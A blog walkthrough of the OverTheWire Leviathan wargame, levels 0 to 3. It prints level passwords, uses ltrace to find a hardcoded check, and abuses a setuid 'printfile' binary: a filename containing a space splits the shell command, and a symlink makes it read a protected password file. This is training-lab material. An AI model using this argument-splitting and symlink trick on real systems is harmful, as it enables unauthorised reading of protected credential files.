 +++
author = "Khaled Ngm"
title = "Leviathan walkthrough"
date = "2022-07-04"
description = ""
+++
# OverTheWire: Leviathan Walkthrough
We will discuss Leviathan game walkthrough ,This wargame doesn't require any knowledge about programming - just a bit of common
sense and some knowledge about basic *nix commands .
* ssh connection
* level0
* level1
* level2
* level3
* level4
* level5
* level6
* level7
## ssh connection ``ssh user@host -p port``
  * first we have to establish ssh connection using ``ssh leviathan0@leviathan.labs.overthewire.org -p 2223`` and password ``leviathan0``
## level0
  * then let's use ``ls -la`` command to list files and directories.

  ![List Directories](/blog/images/131196663-0b273faf-2a2a-45a9-95d1-3474616d3c7a.png)
  
  * If we changed direcory to ``.backup`` directory we will find `bookmarks.html` text file .
  * Let's ``grep`` to get any interesting data about next level `leviathan1` .

    ``cat bookmarks.html | grep leviathan1``
  * So we got the password of the next level .
## level1
  * ``ssh leviathan1@leviathan.labs.overthewire.org -p 2223`` and password ``rioGegei8m``
  *   we found elf executable file called `check`, let's execute it .

      ![need pass](/blog/images/131198175-3d06a1ce-52d1-4f57-9d17-dde7da578114.png)

  * As we see it needs a password , so let's use ``ltrace ./check`` command with a wrong password .

     ![compare](/blog/images/131198440-93937c11-d39e-464e-b966-049d57452b74.png)
  * We realize that it compare the password with ``sex`` word , so we can enter password to reed leviathan2 pass from ``/etc/leviathan_pass/leviathan2``.
## level2
  *  ``ssh leviathan2@leviathan.labs.overthewire.org -p 2223`` and password ``ougahZi8Ta``
  *  We found printfile , so let's create temp file to print it's content 
  ```
   leviathan2@leviathan:~$ mkdir /tmp/print
   leviathan2@leviathan:~$ echo hello > /tmp/print/print.txt
  ```
  * Next step we will use ``ltrace ./printfile /tmp/print/print.txt`` command .
   ```
   __libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...>
   access("/tmp/print/print.txt", 4)                                                                                 = 0
   snprintf("/bin/cat /tmp/print/print.txt", 511, "/bin/cat %s", "/tmp/print/print.txt")                             = 29
   geteuid()                                                                                                         = 12002
   geteuid()                                                                                                         = 12002
   setreuid(12002, 12002)                                                                                            = 0
   system("/bin/cat /tmp/print/print.txt"hello
    <no return ...>
   --- SIGCHLD (Child exited) ---
   <... system resumed> )                                                                                            = 0
   +++ exited (status 0) +++
   ``` 
  * We can see ``access`` function that call file path , we need to call leviathan3 file but we have no permission.
  * If we created a file with space snprintf will read it as two files .
   ```
    __libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
    access("/tmp/print/print hello.txt", 4)                                                                           = 0
    snprintf("/bin/cat /tmp/print/print hello."..., 511, "/bin/cat %s", "/tmp/print/print hello.txt")                 = 35
    geteuid()                                                                                                         = 12002
    geteuid()                                                                                                         = 12002
    setreuid(12002, 12002)                                                                                            = 0   
    system("/bin/cat /tmp/print/print hello.".../bin/cat: /tmp/print/print: No such file or directory
    /bin/cat: hello.txt: No such file or directory
    <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                            = 256
    +++ exited (status 0) +++
   ```
   * As we can see file name devided into two parts (print and hello.txt) , let's make a symbolic link to the first part .
   
   ``ln -s /etc/leviathan_pass/leviathan3  /tmp/print/print``
   * Finally we can read file and get password of next level .
## level3
   *  ``ssh leviathan3@leviathan.labs.overthewire.org -p 2223`` and password ``Ahdiemoo1j``
 